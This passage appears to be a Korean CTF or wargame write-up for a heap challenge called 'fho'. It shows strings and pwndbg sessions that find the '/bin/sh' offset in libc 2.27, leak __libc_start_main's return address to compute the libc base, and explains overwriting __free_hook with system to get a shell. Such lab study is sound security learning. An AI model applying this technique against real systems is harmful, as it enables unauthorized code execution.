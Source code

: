 ```
$ strings -tx libc-2.27.so | grep "/bin/sh"
 1b3e1a /bin/sh

"/bin/sh" 오프셋 = 0x1b3e1a
```
-tx : -t 뒤에는 출력할 오프셋의 진법을 지정한다. 16진수로 오프셋 출력.

메모리 상에서 이들의 주소를 계산하려면, 프로세스에 매핑된 libc 파일의 베이스 주소를 알아야 한다.
libc의 베이스 주소를 알면 거기에 오프셋을 더하여 메모리 상의 주소를 구할 수 있다.
위의 설명에서 "공격 수단" 중 1번 정보인 스택의 어떤 정보를 읽을 수 있다 는 정보를 이용할 수 있는데, 스택에는 libc 의 주소가 있을 가능성이 매우 크다.
특히 main함수는 \_\_libc_start_main 이라는 라이브러리 함수가 호출하므로 main 함수 스택 프레임에 존재하는 반환 주소를 읽으면, 그 주소를 기반으로 libc 베이스 주소를 계산할 수 있고 더불어 변수와 함수들의 주소를 계산할 수 있을 것이다.

```
$ gdb ./fho
pwndbg> start
pwndbg> main
pwndbg> bt
#0  0x00005555555548be in main ()
#1  0x00007ffff7a05b97 in __libc_start_main (main=0x5555555548ba <main>, argc=1, argv=0x7fffffffc338, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffc328) at ../csu/libc-start.c:310
#2  0x00005555555547da in _start ()
```
bt : 현재 실행중인 프로그램의 호출 스택(call stack)을 위에서부터 순서대로 보여줌
	즉, 지금 실행 중인 함수가 어떤 경로(함수 호출 체인)를 통해 실행되었는지 확인할 수 있다.
\_start -> \_\_libc_start_main -> main

#### 2) 셸 획득
앞서 익스플로잇에 필요한 변수와 함수의 주소를 구한 후, \_\_free_hook 의 값을 system 함수의 주소로 덮어쓰고, "/bin/sh" 를 해제(free)  하게 되면 system("/bin/sh")가 호출되어 셸을 획득할 수 있다.

### 4. 익스플로잇

#### 1) 라이브러리의 변수 및 함수들의 주소 구하기
main 함수의 반환 주소인 libc_start_main+x 를 릭하여 libc 베이스 주소를 구하고 변수 및 함수의 주소를 계산.

main 함수는 라이브러리 함수인 \_\_libc_start_main 이 호출하므로, main 함수의 스택 프레임에는 \_\_libc_start_main+x 로 돌아갈 반환주소가 저장되어 있을 것이다.
\_\_libc_start_main+x 는 libc 영역 어딘가에 존재하는 코드이므로 \_\_libc_start_main+x의 주소를 릭한 후 해당 값에서 libc_start_main+x의 오프셋을 빼는 방식으로 프로세스 메모리에 매핑된 libc의 베이스 주소를 계산할 수 있다.

```
$ gdb fho
pwndbg> b *main
Breakpoint 1 at 0x8ba
pwndbg> r
pwndbg> bt
#0  0x00005625b14008ba in main ()
#1  0x00007f5ae2f1cc87 in __libc_start_main (main=0x5625b14008ba <main>, argc=1, argv=0x7ffdf39f3ed8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffdf39f3ec8) at ../csu/libc-start.c:310
#2  0x00005625b14007da in _start ()
pwndbg> x/i 0x00007f5ae2f1cc87
   0x7f5ae2f1cc87 <__libc_start_main+231>:  mov    edi,eax
pwndbg>
```
